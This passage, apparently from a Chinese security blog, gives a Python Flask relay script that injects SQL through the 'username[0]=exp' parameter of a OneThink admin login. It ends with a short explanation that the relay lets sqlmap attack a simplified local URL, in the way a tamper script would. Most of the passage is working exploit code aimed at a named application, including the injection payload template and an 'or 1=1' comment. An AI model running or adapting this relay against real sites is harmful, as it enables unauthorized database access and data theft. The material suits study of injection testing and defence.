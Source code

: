 
    def remote_login(payload):
        '''
        对服务器发起访问请求
        '''
        burp0_url = "http://one.think:80/index.php?s=/admin/public/login.html"
        burp0_headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; ) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4086.0 Safari/537.36", "Accept": "application/json, text/javascript, */*; q=0.01", "Accept-Language": "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2", "Accept-Encoding": "gzip, deflate", "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8", "X-Requested-With": "XMLHttpRequest"}
        # )) or 1=1 -- -
        pay = ") =' {} ')-- -".format(payload) # )={payload} ）1 = 1
        print(pay)
        burp0_data = {"act": "verify", "username[0]": 'exp', "username[1]": pay, "password": "", "verify": ""}
        resp = requests.post(burp0_url, headers=burp0_headers, data=burp0_data, verify=False)

        return resp.text

    app = Flask(__name__)
    @app.route('/')
    def login():
        payload =  request.args.get("id")
        print(payload)
        response = remote_login(payload)
        return response

    if __name__ == '__main__':
        app.run()

那么经过这个转发脚本，原本复杂的参数被简化，你只需要在本地对`http://127.0.0.1:5000/?id=1`跑sqlmap即可。原理上其实与写tamper脚本相同，都是让sqlmap能够识别出"简化过的"注入参数。
